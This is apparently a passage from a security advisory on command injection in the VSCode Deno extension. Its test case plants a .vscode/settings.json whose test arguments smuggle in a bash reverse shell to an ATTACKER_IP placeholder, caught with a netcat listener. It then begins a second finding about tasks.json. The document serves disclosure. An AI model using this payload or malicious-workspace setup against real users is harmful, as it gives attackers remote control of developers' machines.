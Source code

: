     3. **`docs/testing.md` - `deno.codeLens.testArgs` and `deno.testing.args` settings:**
    ```markdown
    - `deno.codeLens.testArgs`: Provides additional arguments that should be set
      when invoking the Deno CLI test from a code lens. _array of strings, default
      `[ "--allow-all" ]`_.
    - `deno.testing.args`: Arguments to use when running tests via the Test
      Explorer. Defaults to `[ \"--allow-all\" ]`.
    ```
    The documentation confirms the existence and purpose of these settings, which are the source of the vulnerability.

* Security Test Case:

    1. Create a new directory named `malicious-repo`.
    2. Inside `malicious-repo`, create a subdirectory named `.vscode`.
    3. Inside `.vscode`, create a file named `settings.json` with the following content to inject a reverse shell command (example for Linux, adjust for other OS if needed):
    ```json
    {
      "deno.enable": true,
      "deno.codeLens.testArgs": [
        "--allow-all",
        "; bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1' #"
      ]
    }
    ```
    Replace `ATTACKER_IP` and `ATTACKER_PORT` with your attacker machine's IP address and listening port.
    4. In `malicious-repo`, create a file named `test.ts` with a simple Deno test:
    ```typescript
    Deno.test("simple test", () => {
      console.log("Test running");
    });
    ```
    5. Start a netcat listener on your attacker machine: `nc -lvnp ATTACKER_PORT`.
    6. Open the `malicious-repo` directory in VSCode. Ensure the Deno extension is active for this workspace.
    7. In VSCode, open the `test.ts` file. You should see the "Run Test" code lens above the `Deno.test` declaration.
    8. Click the "Run Test" code lens.
    9. Observe that the test executes (you should see "Test running" in the output).
    10. On your attacker machine, you should receive a reverse shell connection, indicating successful command injection and RCE.


* Vulnerability Name: Command Injection via Task Definitions

* Description:
    The VSCode Deno extension allows users to define tasks in `tasks.json` that execute Deno CLI commands. The extension parses these task definitions and executes the specified Deno command using `vscode.tasks.executeTask`. A malicious repository can include a crafted `tasks.json` file with a command containing shell metacharacters. When a victim opens the malicious repository in VSCode with the Deno extension active and attempts to run a task from the sidebar, the shell metacharacters in the command can be interpreted by the system shell, leading to command injection.
